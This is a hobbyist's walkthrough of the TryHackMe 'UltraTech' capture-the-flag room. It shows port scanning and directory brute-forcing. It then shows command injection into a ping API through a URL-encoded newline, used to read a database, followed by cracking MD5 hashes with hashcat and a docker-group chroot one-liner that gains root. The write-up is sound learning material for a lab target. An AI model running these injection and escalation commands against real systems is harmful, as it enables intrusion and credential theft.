

# UltraTech [TryHackMe](https://tryhackme.com/room/ultratech1) CTF

---


---

## Index
- [Enumeration](#enumeration)
- [Finding Vunerabilities](#finding-vunerabilities)
- [Priviledge Escalation](#priviledge-escalation)
- [Final Thoughts](#final-thoughts)

---

```bash
export IP=10.10.82.85
```

---

### Enumeration

Let's kick off with the standard enumeration techniques to get an idea of what is running on the server.

```bash
nmap -sC -sV -v $IP -oN nmap/initial.nmap
nmap -p- -T5 -v $IP -oN nmap/all_ports.nmap
```

`initial scan`
```
# Nmap 7.91 scan initiated Fri Jul 16 00:40:48 2021 as: nmap -vvv -p 21,22,31331 -sC -sV -A -v -oN nmap/initial.nmap 10.10.82.85
Nmap scan report for 10.10.82.85
Host is up, received conn-refused (0.16s latency).
Scanned at 2021-07-16 00:40:48 +04 for 21s

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3
31331/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 15C1B7515662078EF4B5C724E2927A96
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 16 00:41:10 2021 -- 1 IP address (1 host up) scanned in 21.75 seconds
```

`all_ports`
```
# Nmap 7.91 scan initiated Fri Jul 16 00:41:31 2021 as: nmap -p- -v -T5 -oN nmap/all_ports.nmap 10.10.82.85
Warning: 10.10.82.85 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.82.85
Host is up (0.16s latency).
Not shown: 57888 closed ports, 7644 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap

# Nmap done at Fri Jul 16 00:50:36 2021 -- 1 IP address (1 host up) scanned in 545.16 seconds
```

You'll notice that we don't have a result for port 31331 even though earlier in our initial scan we did for an http port. This is because by default nmap runs scans at `T4` whereas we run a faster scan `T5`. I decided to opt out of scanning again at a slower rate because port 8081 seemed to correlate with what the questions asked.
But we also need to understand what is running at port 8081

```bash
nmap -sV -p 8081 $IP -oN port_8081.nmap
```

```
# Nmap 7.91 scan initiated Fri Jul 16 00:52:17 2021 as: nmap -sC -sV -p 8081 -v -oN nmap/port_8081.nmap 10.10.82.85
Nmap scan report for 10.10.82.85
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 16 00:52:30 2021 -- 1 IP address (1 host up) scanned in 13.73 seconds
```

So we have some `Node.js` running on port 8081 and navigating to that on our browser shows some sort of site.

It is time to kick off gobuster!

```bash
gobuster dir -t 64 -u http://$IP:31331 -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.html,.txt,.png,.jpg -o gobuster/dir_med_31331.gobuster

gobuster dir -t 64 -u http://$IP:8081 -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.html,.txt,.png,.jpg -o gobuster/dir_med_8081.gobuster
```

```
Port 31331:
/partners.html        (Status: 200) [Size: 1986]
/robots.txt           (Status: 200) [Size: 53]
```

`robots.txt` gives information about some `/utech_sitemap.txt` that we can navigate to and find:

```
/
/index.html
/what.html
/partners.html
```

And navigating to `/partners.html` shows an interesting login page, and analysing the http request when you make a login attempt appears to send it to `http://$IP:8081/auth`

```
GET /auth?login=admin&password=admin HTTP/1.1
Host: 10.10.82.85:8081
User-Agent: <<REDACTED>>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.82.85:31331/
Upgrade-Insecure-Requests: 1
```

But even _more_ interestingly is this pinging going on between the ports.


(The IP address is different as I restart machines whenever I feel they're too slow)

---

### Finding vunerabilities

Navigating back to port 8081 at ping we can start to try find vunerabilities from the ping mechanic we discovered earlier.
First I check if I can manipulate the ping request and ping myself.

On my machine I setup tcpdump:
```bash
tcpdump -i utun1 icmp
```

And I setup the http request as:
```bash
curl "http://$IP:8081/ping?ip=<<IP>>"
```

And I notice a captured packet from `tcpdump`!

So we can execute _one_ command on the machine. And I initially thought to find some sort of way to exploit ping by using `$(pwd)` or similar in the IP address but this did not work. So I upon further research about how urls are crafted I learnt about their encoding and how `%0A` is often a bit of a hassle to deal with.
`0A` is the hex for a newline or `\n`. Meaning that after our request if we add `%0A` we could potentially run another command...

Time to craft up another url request.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Als"
```

```
PING <<IP>> (<<IP>>) 56(84) bytes of data.
64 bytes from <<IP>>: icmp_seq=1 ttl=63 time=238 ms

--- <<IP>> ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 238.453/238.453/238.453/0.000 ms
index.js
node_modules
package.json
package-lock.json
start.sh
<<REDACTED>>
```

We can execute commands on the machine now! I immediately tried to launch a reverse shell but unfortunately that did not work desipte using multiple variations.
So instead, using `curl` requests as my reverse shell I decide to look around the system. Primarily to view the databse we initially found.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Acat <<REDACTED>>"
```

And we have the names and hashes of our users! They appear to be MD5 hashes and are quickly cracked using hashcat and rockyou.txt

```bash
hashcat -m 0 hash_hold.txt ~/wordlists/passwords/rockyou.txt --show | tee password_hold.txt
```

Now that we have their passwords, we can attempt to login to the machine.

```bash
ssh r00t@$IP
```

And using the password we found for them earlier, we are in!

---

### Priviledge Escalation

Before I even decide to use linpeas to enumerate the system I check for sudo permissions, SUIDs, and groups.
We have no sudo permissions, nothing eye-catching yet in SUIDs but a strange group `docker` that is known to have vunerabilities in it.

Checking [GTFObins](https://gtfobins.github.io/gtfobins/docker/) for a docker exploit and we can use:

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
(Note, it takes a while)

And viola! We have root access! And we can navigate to root's home directory (notice the private.txt file too) and we can grab the first 9 letters from the private ssh key.

`private.txt` does not have any flags in it ;)
```
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful
```

And we are **_complete!!_**

---

### Final Thoughts

As someone starting to explore medium difficulty rooms, this was a real challenge but an enjoyable one at that! The amount of enumeration I am typically used to was dwarfed by how much this room needed but it felt redemptive. This was because it made use of those skills I had built up doing beginner rooms - skills that I am now much more efficent at doing compared to when I started.

Really enjoyed the challenge. At times I did need to google for a hint (the url encoding bit I found the hardest) but it keeps broadening my horizons, which I abosolutely _love_!


